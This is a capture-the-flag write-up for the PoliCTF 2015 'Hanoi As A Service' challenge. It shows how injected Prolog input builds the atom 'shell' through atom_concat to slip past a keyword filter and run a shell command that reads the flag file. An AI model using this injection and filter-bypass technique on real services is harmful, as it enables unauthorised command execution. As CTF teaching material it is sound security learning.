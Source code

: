 # PoliCTF 2015: Hanoi As A Service

**Category:** Pwnable
**Points:** 50
**Solves:** 191
**Description:**

> Check out our shiny new HaaS platform!
> nc haas.polictf.it 80

## Write-up

This pwnable is pretty simple, it seems to be a tower of hanoi solver. 
>```bash
>$ nc haas.polictf.it 80
> Welcome to the Hanoi-as-a-Service cloud platform!
> How many disks does your tower have?
> 3
> * Move top disk from a to b
> * Move top disk from a to c
> * Move top disk from b to c
> * Move top disk from a to b
> * Move top disk from c to a
> * Move top disk from c to b
> * Move top disk from a to b
>```

After messing around with it and looking up error codes, it seems to be using prolog which is a logical programming language.

>```bash
>$ nc haas.polictf.it 80
> Welcome to the Hanoi-as-a-Service cloud platform!
> How many disks does your tower have?
>)
>ERROR: Prolog initialisation failed:
>ERROR: Syntax error: Illegal start of term
>ERROR: hanoi()
>ERROR: ** here **
>ERROR: ) . 
>```

Also there is a filter that terminates the session if anything os related is sent. After looking around on prolog functions, it turns out you can concatenate two atoms and use the call function on the result to by pass the filter. 

>```bash
>% nc haas.polictf.it 80
>Welcome to the Hanoi-as-a-Service cloud platform!
>How many disks does your tower have?
>0), L = 'shel',K = 'l',atom_concat(L,K,M),call(M,'cat /home/ctf/haas/jhknsjdfhef_flag_here'), hanoi(0
>flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
>```

## Other write-ups and resources

* <http://www.mrt-prodz.com/blog/view/2015/07/polictf-2015---hanoi-as-a-service-50pts-writeup>
* <https://ctf-team.vulnhub.com/polictf-2015-hanoi-as-a-service/>
